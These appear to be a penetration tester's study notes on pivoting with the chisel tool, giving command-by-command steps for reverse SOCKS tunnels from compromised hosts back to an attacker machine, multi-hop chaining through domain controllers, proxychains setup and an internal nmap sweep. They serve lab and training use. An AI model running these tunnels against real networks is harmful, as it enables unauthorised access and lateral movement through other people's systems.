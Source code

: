 #tool #pivoting 

https://exploit-notes.hdks.org/exploit/network/port-forwarding/port-forwarding-with-chisel/

### When you have a port Inaccessible from Outside

```bash
.\chisel.exe client 192.168.45.228:8001 R:30000:127.0.0.1:3306
```

3306 is the victims port  30000 is the local kali listening port

Multiple ports are like below

```bash
.\chisel.exe client 192.168.45.228:8001 R:30000:127.0.0.1:3306 R:8000:127.0.0.1:22
```
### Chisel Multi hops and How to


![[Pasted image 20230730191754.png]]

First we need to start a chisel server running on port 8001 our attacker machine so we can pivot through the `10.10.101.50` machine and gain access to the network. Run the command below to start a server:

**Run command on attacker machine (10.10.101.51)**

```bash
./chisel server -p 8001 --reverse --socks5
```

Assuming we have a foothold on the Web Server we can transfer chisel to the machine and connect back to our chisel server to complete the tunnel.

**Run command on Web Server machine (172.16.1.101 | 10.10.101.50)**
```bash
./chisel client 10.10.101.51:8001 R:socks
```

This will create a reverse proxy and open port 1080 on our machine. Now we can modify our proxychains.conf file to use this proxy. At the bottom of the `/etc/proxychains.conf` add 
	socks5 127.0.0.1 1080`. 

Now that we have this working we can use this to conduct a simple nmap of the internal network from the Web Server.

**Run command on attacker machine (10.10.101.50 | 172.16.1.101)**

```bash
proxychains4 nmap 172.16.1.1/24
```

Now that we have gathered all the info about our current subnet and gained access to all the computers including the domain controller we now want to pivot into the second subnet. We are assuming that the domain controller on the Office Network has a trust with the Admin Network. First we need to start a chisel server on the Web Server in addition to the chisel client we are already using to pivot onto the Office Network similar to how we started a chisel server on our attacker machine. Next we need to transfer the chisel client to the Windows domain controller (`172.16.1.5`) to connect to our chisel server on the web server system so can chain our tunnel.

**Run command on Web Server machine (172.16.1.101)**

```bash
./chisel server -p 8002 --reverse
```

Then on the domain controller (172.16.1.5) in the office network we want create a new connection that will connect to the chisel server running on `172.16.1.101` on port 8002

**Run command on Office Domain Controller machine (172.16.1.5)**
```cmd
chisel.exe client 172.16.1.101:8002 R:2080:socks
```

Finally we now want to add this new connection in our `proxychains.conf` which will look like something below.

	socks5 127.0.0.1 1080
	socks5 127.0.0.1 2080

Our connection should now now be 



Now that we can tunnel through the domain controller we can do some more recon and find the IP of the domain controller of the Admin network. Once we identify the IP of the DC in Admin network (`172.16.2.10`) we can begin to look for a path of compromise.

Lets assume that we now have access to the domain controller in the Admin network. We now want to pivot again from the Office network DC to the Admin network DC so we can recon and eventually gain access to our target computer on the Admin network (`172.16.2.200`). First we want to create a server on the Office DC

**Run command on Office Domain Controller machine (172.16.1.5 )**
```cmd
chisel.exe server -p 8003 --reverse
```

Then on the Admin DC we want to run the following command to connect back to our domain controller.

**Run command on Admin Domain Controller machine (172.16.2.5)**

```cmd
chisel.exe client 172.16.1.5:8003 R:3080:socks
```

Finally we want to add a third entry into our `proxychains.conf`

	socks5 127.0.0.1 1080 
	socks5 127.0.0.1 2080 
	socks5 127.0.0.1 3080